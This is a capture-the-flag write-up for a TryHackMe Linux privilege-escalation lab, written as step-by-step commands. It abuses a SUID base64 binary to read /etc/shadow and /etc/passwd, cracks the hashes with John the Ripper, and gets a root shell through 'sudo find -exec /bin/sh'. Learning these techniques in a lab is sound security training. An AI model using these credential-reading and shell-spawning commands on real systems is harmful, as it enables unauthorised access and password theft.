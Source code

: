 # Linux privilege escalation - Capstone Challenge Writeup:
[ROOM](https://tryhackme.com/r/room/linprivesc)

## Introduction
By now you have a fairly good understanding of the main privilege escalation vectors on Linux 
and this challenge should be fairly easy.
You have gained SSH access to a large scientific facility. 
Try to elevate your privileges until you are Root.

## Steps

### Step 1: Initial Access and Enumeration
1. **SSH Login**: Logged into the target machine as user `leonard` with the IP `10.x.x.x`.
2. **SUID Check**:
   - Ran the following command to search for files with the SUID bit set:

     ```bash
     find / -type f -perm -04000 -ls 2>/dev/null
     ```

   - Found the `base64` binary with special permissions, which could be exploited to read files.

### Step 2: Exploiting `base64` for File Access
1. **Moving to Directory**:
   - Navigated to `/usr/bin` directory.

2. **Reading Sensitive Files**:
   - Used the command from GTFOBins to read the contents of `/etc/shadow` and `/etc/passwd`:

     ```bash
     ./base64 "/PATH/FILE" | base64 --decode
     ```

   - Copied the contents of `/etc/shadow` and `/etc/passwd` files for password cracking.

### Step 3: Password Cracking
1. **Unshadowing Files**:
   - Ran the following on my machine to combine the `passwd` and `shadow` files:

     ```bash
     unshadow passwd.txt shadow.txt > passwords.txt
     ```

2. **Cracking with John the Ripper**:
   - Used John the Ripper with the `rockyou.txt` wordlist to crack the password:

     ```bash
     john --wordlist=rockyou.txt passwords.txt
     ```

   - Cracked the password for the user `messy`.

### Step 4: Privilege Escalation to User `messy`
1. **Switching User**:
   - Logged in as `messy` using the cracked password:

     ```bash
     su messy
     ```

2. **Flag 1**:
   - Located `flag1.txt` in the `Documents` folder of the `messy` user.

### Step 5: Root Privilege Escalation
1. **Checking Sudo Permissions**:
   - Ran `sudo -l` and found that `find` can be executed with sudo privileges without restriction.

2. **Exploiting `find` for Root Shell**:
   - Used the following command to get a root shell:

     ```bash
     sudo find . -exec /bin/sh \; -quit
     ```

3. **Flag 2**:
   - Navigated to the `/rootflag` directory and found `flag2.txt`.
